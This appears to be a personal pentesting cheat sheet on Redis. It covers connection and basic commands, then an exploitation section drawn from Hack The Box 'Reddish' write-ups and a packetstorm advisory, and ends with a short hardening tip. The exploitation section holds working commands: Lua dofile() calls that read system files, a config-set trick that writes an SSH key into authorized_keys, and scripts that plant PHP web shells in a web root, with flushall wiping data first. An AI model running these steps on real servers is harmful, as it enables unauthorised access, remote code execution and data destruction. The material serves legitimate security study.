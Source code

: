 # Redis
## Introduction to Redis
Key value pair database

(nil) mean does not exist

## Connecting
```bash
redis-cli -h $IP -p $port -a $password -n $databasenumber
```

## Concepts
```sql
info 	-- server info
CONFIG GET * --  list of all active configuration variables you can change

```
Keyspace section is the main dictionary of each database

## Useful Commands
```sql
select $database/$table
keys * # all keys
get $keyname

# CMD KEY
config get * # retrieve current configuration of the database
config get dir # windows directory command

get user	
set user


```

[flushall](https://redis.io/commands/flushall/)
```bash
# Delete all the keys of all the existing databases, not just the currently selected one. This command never fails.
flushall [ASYNC | SYNC]
```

## Exploitation

```sql
eval dofile('/etc/passwd') 0 # enumerating files, with lua script dofile()
eval "dofile('C:\\\\Users\\\\enterprise-security\\\\Desktop\\\\user.txt')" 0 # enumerating files, with lua script dofile()
```

[Redis RCE from packetstormsecurity](https://packetstormsecurity.com/files/134200/Redis-Remote-Command-Execution.html)  
```bash
$ redis-cli -h 192.168.1.11 flushall
$ cat foo.txt | redis-cli -h 192.168.1.11 -x set crackit
# Looks good. How to dump our memory content into the authorized_keys file? That’skinda trivial.
$ redis-cli -h 192.168.1.11
192.168.1.11:6379> config set dir /Users/antirez/.ssh/
OK
192.168.1.11:6379> config get di
1) "dir"
2) "/Users/antirez/.ssh"
3) 192.168.1.11:6379> config set dbfilename "authorized_keys"
4) OK
5) 192.168.1.11:6379> save
6) OK
```

[0xdf variation for Reddish](https://0xdf.gitlab.io/2019/01/26/htb-reddish.html) - White space required!
```bash
# 0xDF 
# cmd.php:




 <? system($_REQUEST['cmd']); ?>




# 0xdfreddishRCE.sh
#!/bin/bash

# https://0xdf.gitlab.io/2019/01/26/htb-reddish.html#webshell
redis-cli -h 127.0.0.1 flushall
cat cmd.php | redis-cli -x set subscribetoippsecandread0xdf
redis-cli -h 127.0.0.1 config set dir /var/www/html/
redis-cli -h 127.0.0.1 config set dbfilename "cmd.php"
redis-cli -h 127.0.0.1 save
```

[alamot](https://alamot.github.io/reddish_writeup/#getting-www-data-www) prefers *to talk raw Redis. Have a look here [https://www.compose.com/articles/how-to-talk-raw-redis/](https://www.compose.com/articles/how-to-talk-raw-redis/) and here [https://redis.io/topics/protocol](https://redis.io/topics/protocol). So, basically, we can do something like this:*
```bash
echo -ne '*1\r\n$8\r\nFLUSHALL\r\n*3\r\n$3\r\nSET\r\n$1\r\n1\r\n$32\r\n<?php shell_exec($_GET["e"]); ?>\r\n*4\r\n$6\r\nCONFIG\r\n$3\r\nSET\r\n$10\r\ndbfilename\r\n$5\r\nz.php\r\n*4\r\n$6\r\nCONFIG\r\n$3\r\nSET\r\n$3\r\ndir\r\n$46\r\n/var/www/html/8924d0549008565c554f8128cd11fda4\r\n*1\r\n$4\r\nSAVE\r\n' | /tmp/socat - TCP:redis:6379
```

## Hardening

[Redis force Authentication](https://redis.io/docs/management/security/#authentication)
```bash
sudo sed -i 's/# requirepass/requirepass/g' /etc/redis/redis.conf
```
## References

[Redis Commands](https://redis.io/commands/)
[Redis RCE from packetstormsecurity](https://packetstormsecurity.com/files/134200/Redis-Remote-Command-Execution.html)
[Lzone](https://lzone.de/cheat-sheet/Redis)
[HackTricks](https://book.hacktricks.xyz/network-services-pentesting/6379-pentesting-redis)
[alamot](https://alamot.github.io/reddish_writeup/#getting-www-data-www)
[Redis RCE from packetstormsecurity](https://packetstormsecurity.com/files/134200/Redis-Remote-Command-Execution.html)  
[0xdf Writeup for Reddish](https://0xdf.gitlab.io/2019/01/26/htb-reddish.html) 
[Redis force Authentication](https://redis.io/docs/management/security/#authentication)